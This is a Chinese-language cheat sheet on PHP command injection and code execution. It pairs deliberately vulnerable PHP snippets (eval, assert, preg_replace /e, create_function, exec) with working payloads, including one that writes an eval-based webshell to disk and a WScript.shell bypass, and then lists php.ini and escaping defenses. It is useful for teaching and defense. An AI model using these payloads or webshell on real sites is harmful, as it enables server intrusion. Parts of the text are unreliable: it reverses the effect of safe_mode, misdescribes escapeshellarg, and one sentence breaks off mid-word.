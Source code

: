 ## php 命令注入或代码执行


### 系统命令

系统命令执行是指应用程序对传入命令行的参数过滤不严格导致恶意用户能控制最终执行的命令，进而入侵系统，导致严重破坏的高危漏洞

* 形成原因

此类命令执行函数依赖PHP配置文件的设置，如果配置选项 safe_mode 设置为 off，此类命令不可执行，必须设置为 On 的情况下，才可执行。PHP 默认是关闭的。在安全模式下，只有在特定目录中的外部程序才可以被执行，对其它程序的调用将被拒绝。这个目录可以在php.ini文件中用 safe_mode_exec_dir指令，或在编译PHP是加上–with-exec-dir选项来指定，默认是/usr/local/php /bin

## php 代码执行

* eval


```
# 1. 没有任何过滤
<?php
@eval($_GET["cmd"]);
?>

visit: ?cmd=phpinfo();
       ?cmd=fputs(fopen('test.php','w'),'<?php @eval($_POST[test])?>')

# 2. addslashes 过滤
<?php
$cmd = @(string)$_GET["cmd"];
eval('$cmd="' . addslashes($cmd) . '";');
?>
# ${${}} 绕过
cmd=${${phpinfo()}}

# 3 引号包含过滤
<?php
$cmd = "echo \"hello " . $_GET['cmd'] . "\";";
eval($cmd);
# ${${}} 绕过
cmd=${${phpinfo()}}
```

* assert()

```
<?php
@assert($_GET["cmd"]);
?>
cmd=phpinfo();
```

* preg_replace + '/e'

```
# 1. parameter 1
# magic_quotes_gpc=Off时，导致代码执行。
<?php
$regexp = $_GET['reg'];
$var = '<php>phpinfo()</php>';
preg_replace("/<php>(.*?)$regexp", '\\1', $var);
?>
reg=%3C\/php%3E/e, 执行 phpinfo.

# 2. parameter 2
# 当replacement 参数构成一个合理的php 代码字符串的时候
# /e 修正符使preg_replace()，将replacement 参数当做php 代码执行
<?php
preg_replace("//e", $_GET['cmd'], "cmd test");
?>
cmd=phpinfo();

# 3. parameter 3
<?
preg_replace("/\s*\[php\](.+?)\[\/php\]\s*/ies", "\\1", $_GET['h']);
?>
h=[php]phpinfo()[/php]
```

* call_user_func

* call_user_func_array

* create_function

```
<?php
$cmd = $_GET['cmd'];
$func = create_function('$arg1, $arg2', $cmd);
$func(1, 2);
?>
cmd=phpinfo();
```

*  array_map

```
<?php
$evil_callback = $_GET['callback'];
$some_array = array(0, 1, 2, 3);
$new_array = array_map($evil_callback, $some_array);
?>
callback=phpinfo
```

## php 执行系统命令

php能够执行系统命令的函数有：

assert,system,passthru,exec,pcntl_exec,shell_exec,popen,proc_open,`(反单引号)

* shell_exec()

> string shell_exec ( string $cmd )

命令执行的输出。 如果执行过程中发生错误或者进程不产生输出，则返回 NULL。

* system()

> string system ( string $command [, int &$return_var ］)

成功则返回命令输出的结果， 失败则返回 FALSE

* exec() 

> string exec( string $command [, array &$output [, int &$return_var ］)

返回命令执行结果的最后一行内容

```
<?php
$cmd = $_GET["cmd"];
$output = array();
echo "<pre>";
exec($cmd,$output);
echo "</pre>";
while(list($key,$value)=each($output))
{
    echo $value."<br>";
}
?>
cmd=ifconfig
```

* passthru

> void passthru ( string $command [, int &$return_var ］ )

直接将结果输出到游览器,不返回任何值

* popen()

* proc_open()

* `(反撇号) 与 shell_exec 功能相同

```
$ php -r 'echo `ls -l`;'
```

### 防御

* php.ini 

```
safe_mode = On      #safe mode
safe_mode_exec_dir = /usr/local/php/bin/    #limit path

disable_functions="eval,phpinfo"
```

* 使用escapeshellcmd()和escapeshellarg()函数阻止用户恶意在系统上执行命令

    + escapeshellcmd()针对的是执行的系统命令

    + escapeshellarg()针对的是执行系

### 绕过

* windows 组件绕过

```
# 防御：直接删除system32下的wshom.ocx文件
<?php
$command = $_POST[a];
$wsh = new COM('WScript.shell');    //生成一个COM对象
$exec = $wsh->exec('cmd.exe /c '.$command);    //调用对象方法来执行命令
$stdout = $exec->StdOut();
$stroutput = $stdout->ReadAll();
echo $stroutput
?>
```

## 防御

1、尽量不要执行外部命令

2、使用自定义函数或函数库来替代外部命令的功能

3、使用escapeshellarg函数来处理命令参数

4、使用safe_mode_exec_dir指定可执行文件的路径

esacpeshellarg函数会将任何引起参数或命令结束的字符转义，单引号“’”，替换成“\’”，双引号“"”，替换成“\"”，分号“;”替换成“\;”

用safe_mode_exec_dir指定可执行文件的路径，可以把会使用的命令提前放入此路径内

safe_mode = On

safe_mode_exec_dir = /usr/local/php/bin/